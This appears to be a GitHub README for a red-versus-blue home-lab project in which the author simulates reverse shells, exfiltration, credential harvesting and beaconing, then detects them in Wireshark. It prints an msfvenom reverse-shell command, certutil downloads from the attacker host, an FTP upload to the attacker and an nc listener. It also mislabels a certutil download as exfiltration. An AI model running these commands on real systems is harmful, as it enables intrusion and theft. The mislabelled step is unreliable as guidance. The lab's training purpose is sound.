 # 🔍 Network Analysis Project

## 📌 Overview
This project demonstrates **end-to-end adversary simulation and network traffic analysis** in a controlled lab.  
Instead of relying on pre-made PCAPs, I **generated malicious traffic myself**, captured it, and analyzed it in Wireshark to show how a SOC analyst detects real-world threats.

I acted as both:
- **Red Team (Attacker):** Simulating MITRE ATT&CK techniques such as reverse shells, data exfiltration, credential dumping, and beaconing.
- **Blue Team (Defender):** Capturing PCAPs, analyzing traffic in Wireshark, and mapping detection logic to MITRE ATT&CK.

---

## 🖥️ Lab Setup
- **Attacker:** Kali Linux (`192.168.2.131`)
- **Victim:** Windows 10 FLARE VM (`192.168.2.129`)
- **Sniffer/Analyst:** Wireshark/tcpdump (ran on Kali or Security Onion)
- **Network:** VirtualBox Host-Only Network

---

## 🎯 Objectives
- Generate **realistic malicious traffic** (reverse shell, data exfiltration, credential harvesting, beaconing).
- Capture all traffic in **PCAP format**.
- Perform **forensic analysis** with Wireshark.
- Map detections to the **MITRE ATT&CK framework**.

---

## ⚔️ Red Team vs Blue Team Scenarios

### ✅ Scenario 1 — Reverse Shell (C2 over TCP)
- **Red Team Action:**  
  - Generated payload with `msfvenom`:
    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.2.131 LPORT=4444 -f exe -o payload.exe
    ```
  - Delivered via `certutil`:
    ```cmd
    certutil -urlcache -split -f http://192.168.2.131:8080/payload.exe payload.exe
    ```
  - Executed on victim to initiate a reverse shell back to attacker.

- **Blue Team Detection (Wireshark):**
  - Filter:
    ```wireshark
    tcp.port == 4444
    ```
  - Observed **outbound connection attempts** to attacker.
  - Followed TCP stream → saw command input/output (if successful).
  - **MITRE Mapping:** T1071 – Application Layer Protocol (C2).

---

### ✅ Scenario 2 — Data Exfiltration via HTTP
- **Red Team Action:**
  - Used built-in `certutil` to simulate data theft:
    ```cmd
    certutil -urlcache -split -f http://192.168.2.131:8080/secrets.txt
    ```
  - File contents were sent/downloaded via HTTP.

- **Blue Team Detection (Wireshark):**
  - Filter:
    ```wireshark
    http.request
    ```
  - Detected suspicious file transfer requests from victim to attacker.
  - **MITRE Mapping:** T1041 – Exfiltration Over C2 Channel.

---

### ✅ Scenario 3 — Credential Harvesting (Simulated)
- **Red Team Action:**
  - Simulated credential dumping attempt using a malicious binary.
  - Outbound connection attempted to send harvested credentials to attacker server.

- **Blue Team Detection (Wireshark):**
  - Filter suspicious traffic to attacker:
    ```wireshark
    ip.addr == 192.168.2.129
    ```
  - Identified repeated POST requests containing encoded credential strings.
  - **MITRE Mapping:** T1003 – OS Credential Dumping.

---

### ✅ Scenario 4 — Beaconing Behavior (C2 Heartbeats)
- **Red Team Action:**
  - Ran a custom payload that repeatedly attempted to connect to attacker every 10 seconds.
  - Simulated persistent C2 “beaconing.”

- **Blue Team Detection (Wireshark):**
  - Filter:
    ```wireshark
    tcp.port == 8080
    ```
  - Observed periodic outbound connections with no user activity.
  - Detected beaconing pattern (regular intervals).
  - **MITRE Mapping:** T1071.001 – Application Layer Protocol: Web Protocols.

---

### ✅ Scenario 5 — File Transfer via FTP
- **Red Team Action:**
  - Used Windows built-in `ftp` client to upload a file to attacker server:
    ```cmd
    ftp 192.168.2.131
    put confidential.docx
    ```

- **Blue Team Detection (Wireshark):**
  - Filter:
    ```wireshark
    ftp
    ```
  - Identified clear-text FTP session (username/password + file transfer).
  - **MITRE Mapping:** T1048 – Exfiltration Over Alternative Protocol.

---

## 📂 Evidence Collected
- `reverse_shell.pcap` → Reverse shell traffic capture
- `data_exfiltration.pcap` → Simulated exfiltration traffic
- `beaconing.pcap` → Periodic C2 beaconing attempts
- `ftp_exfiltration.pcap` → Clear-text FTP transfer
- Screenshots of:
  - Attacker listener (`nc -lvnp 4444`)
  - Victim command execution
  - Wireshark analysis (filters + streams)

---

## 🛡️ SOC Analyst Takeaways
- Reverse shells often show **unusual outbound connections** to non-standard ports.
- Data exfiltration stands out as **large HTTP/FTP transfers** to unexpected hosts.
- Beaconing can be detected by **regular periodic traffic** with no user action.
- Credential dumps frequently appear as **encoded POST data**.
- Cleartext protocols like FTP leak both credentials and files.

---

## 📊 MITRE ATT&CK Mapping
| Scenario | Technique ID | Name |
|----------|--------------|------|
| Reverse Shell | T1071 | Application Layer Protocol (C2) |
| Data Exfiltration | T1041 | Exfiltration Over C2 Channel |
| Credential Harvesting | T1003 | OS Credential Dumping |
| Beaconing | T1071.001 | Application Layer Protocol: Web Protocols |
| FTP Exfiltration | T1048 | Exfiltration Over Alternative Protocol |

---

## 📌 Resume-Ready Impact
> **Simulated adversary techniques** (MITRE ATT&CK T1071, T1041, T1003, T1048) in a controlled lab. Generated reverse shell, exfiltration, beaconing, and credential theft traffic, captured PCAPs, and performed forensic analysis in Wireshark to demonstrate SOC detection workflows.

---

## 🚀 Next Steps
- Add Snort/Suricata IDS signatures to alert on these behaviors.
- Ingest PCAPs into Splunk for SIEM correlation.
- Automate scenario generation with Python scripting.

---

## Author
Julian (SMOC) – Network Analysis Project
